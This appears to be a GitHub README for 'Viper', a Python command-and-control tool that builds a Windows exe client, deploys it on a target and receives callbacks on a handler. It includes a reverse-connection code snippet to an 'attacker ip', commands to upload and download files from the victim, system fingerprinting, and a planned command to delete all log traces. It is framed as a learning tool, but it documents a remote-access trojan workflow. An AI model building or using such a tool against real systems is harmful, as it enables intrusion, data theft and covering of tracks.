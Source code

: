 

***VIPER***


Viper is designed in order to retrieve compromised files, processes, and services in case you have to reach out and grab information quickly. 
The viper can also be used for testing exploitation and enumeration for the purpose of learning offensive for defensive actions.

Viper also has team server capabilities *I am still working out bugs but it works great currently with command line

This program was created as a basic function to reach out and grab things fast! Powered by twisted python. 

I have recently added a twisted webserver and chat server for teamdevops


viper has been tested on kali 2.0 x86

***Instalation instructions***

The installer.sh should install everything for you

Important note: You may want to take a virtual-image snapshot before running installer.sh. This should work perfectly though. 

***Install commands***

```
navigate to vipers root directory
$>chmod +x installer.sh
$>./installer.sh

```

The installer will back up your ~/.bashrc file and This should do the tricks and get you up and running. 

You will need to verify the installer adds the python path to the end of the ~/.bashrc

Quick pythonpath help commands. This should be done for you while doing instalation. I still have to confirm this again

```
echo export PYTHONPATH="" >> ~/.bashrc
source ~/.bashrc

```

***libraries installed and current requirements check install.sh for mods***

```
python-twisted +16.6;
PyCrypto;
pyOpenSSl;
Zope interface;
python 2.7;
python-2.7.13.msi;
pyinstaller-3.1.1;
future-0.16.0;
wine;
winetricks;

```

***Usage:***

***to start the viper console:***

```
$$> chmod +x start-teamserver.sh
$$> ./start-teamserver.sh
```

***usage:***

start the handler first and then start the client on the target machine

viper main commands:

```
[*] handler ========= > "starts the viper server and waits for a call back" 
[*] buildfang ========= > "creates a basic exe file from viperclient.py and stores it inside payloads"; 
[*] chatserver ========= > will start your chat server on port 8123. You will have to open a new terminal to connect
[*] stopchat ========= > will tear down the chat server when needed
[*] startweb ========= > starts the webserver
[*] stopweb ========= > stops the webserver
```

***build fang pre-instructions***

Inside viper client modify these two lines with your local ip address

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect(('address you want to connect back to, attacker ip', 8081))


***viper connection commands:***

use these once you get the call back from the client. first you will need to enter in the local host and port number that you assigned to the client before deploying. 

```
[*] download ========= > downloads a file from the client machine (ex: download #source #dest);
[*] upload   ========= > uploads a file to the client machine (ex: upload #source #dest);
[*] getenv       ========= >  prints the system information";
[*] getuid       ========= > Get the user level access of the shell";
[*] SystemInfo   ========= > Get Fingerprint of the system"; todo
[*] capture      ========= > take images of the host machine "; todo
[*] Cover        ========= > Delete all traces of logs"; todo
```

*important note: to upload or download source or dest must be full file paths with file names or program may currently break. #working on this. 

***Twisted Remote Desktop integration*** 

For now there is a rdpclient located in /application/services/rdpy-viperclient.py

usage

```
./rdpy-rdpclient.py -u username -p password 10.11.4.94:3389
```


```
Please help Contribute!

1. Fork it!
2. Create your feature branch: git checkout -b my-new-feature
3. Commit your changes: git commit -am 'Add some feature'
4. Push to the branch: git push origin my-new-feature
5. Submit a Pull Request
```
